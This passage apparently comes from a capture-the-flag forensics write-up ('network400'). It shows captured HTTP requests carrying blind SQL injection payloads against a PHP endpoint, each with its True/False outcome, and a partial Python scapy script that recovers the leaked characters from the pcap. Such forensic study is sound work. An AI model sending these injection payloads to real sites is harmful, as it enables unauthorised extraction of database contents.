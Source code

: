 Here&#8217;s a part of the output:

> &#8230;  
> GET /sc/id\_check.php?name=music&#8217; AND CONNECTION\_ID()=CONNECTION_ID() AND &#8216;YOxWw&#8217;=&#8217;YOxWw HTTP/1.1  
> True  
> GET /sc/id_check.php?name=music&#8217; AND ISNULL(1/0) AND &#8216;wSwEm&#8217;=&#8217;wSwEm HTTP/1.1  
> True  
> GET /sc/id\_check.php?name=music&#8217; AND ORD(MID((SELECT 7 FROM information\_schema.TABLES LIMIT 0, 1), 1, 1)) > 51 AND &#8216;zqAWP&#8217;=&#8217;zqAWP HTTP/1.1  
> True  
> GET /sc/id\_check.php?name=music&#8217; AND ORD(MID((SELECT 7 FROM information\_schema.TABLES LIMIT 0, 1), 1, 1)) > 54 AND &#8216;zqAWP&#8217;=&#8217;zqAWP HTTP/1.1  
> True  
> GET /sc/id\_check.php?name=music&#8217; AND ORD(MID((SELECT 7 FROM information\_schema.TABLES LIMIT 0, 1), 1, 1)) > 56 AND &#8216;zqAWP&#8217;=&#8217;zqAWP HTTP/1.1  
> False  
> GET /sc/id\_check.php?name=music&#8217; AND ORD(MID((SELECT 7 FROM information\_schema.TABLES LIMIT 0, 1), 1, 1)) > 55 AND &#8216;zqAWP&#8217;=&#8217;zqAWP HTTP/1.1  
> False  
> GET /sc/id\_check.php?name=music&#8217; AND ORD(MID((SELECT 7 FROM information\_schema.TABLES LIMIT 0, 1), 2, 1)) > 51 AND &#8216;zqAWP&#8217;=&#8217;zqAWP HTTP/1.1  
> False  
> GET /sc/id\_check.php?name=music&#8217; AND ORD(MID((SELECT 7 FROM information\_schema.TABLES LIMIT 0, 1), 2, 1)) > 48 AND &#8216;zqAWP&#8217;=&#8217;zqAWP HTTP/1.1  
> False  
> GET /sc/id\_check.php?name=music&#8217; AND ORD(MID((SELECT 7 FROM information\_schema.TABLES LIMIT 0, 1), 2, 1)) > 1 AND &#8216;zqAWP&#8217;=&#8217;zqAWP HTTP/1.1  
> False  
> GET /sc/id\_check.php?name=music&#8217; AND ORD(MID((SELECT IFNULL(CAST(COUNT(DISTINCT(schema\_name)) AS CHAR(10000)), CHAR(32)) FROM information_schema.SCHEMATA), 1, 1)) > 51 AND &#8216;yFdDA&#8217;=&#8217;yFdDA HTTP/1.1  
> False  
> GET /sc/id\_check.php?name=music&#8217; AND ORD(MID((SELECT IFNULL(CAST(COUNT(DISTINCT(schema\_name)) AS CHAR(10000)), CHAR(32)) FROM information_schema.SCHEMATA), 1, 1)) > 48 AND &#8216;yFdDA&#8217;=&#8217;yFdDA HTTP/1.1  
> True  
> GET /sc/id\_check.php?name=music&#8217; AND ORD(MID((SELECT IFNULL(CAST(COUNT(DISTINCT(schema\_name)) AS CHAR(10000)), CHAR(32)) FROM information_schema.SCHEMATA), 1, 1)) > 49 AND &#8216;yFdDA&#8217;=&#8217;yFdDA HTTP/1.1  
> True  
> &#8230;

We extended the script to print out only the leaked characters

<pre class="brush: python; title: ; notranslate" title="">import sys
from scapy.all import *
import urllib
packets = rdpcap("network400")
len_packets = len(packets)

cur_s = None
last_false_value = None
result = ""
i=0
while i &lt; len_packets:
    if ('Raw' in packets[i]) and (packets[i].payload.dst == '192.168.1.41'):
        query = urllib.unquote(str(packets[i]['Raw']).split("r")[0])
        if "&gt;" in query:
            s,v = query.split("&gt;")
            v=chr(int(v.strip().split(" ")[0]))
            if cur_s != s and last_false_value != None:
                result+= last_false_value
            cur_s = s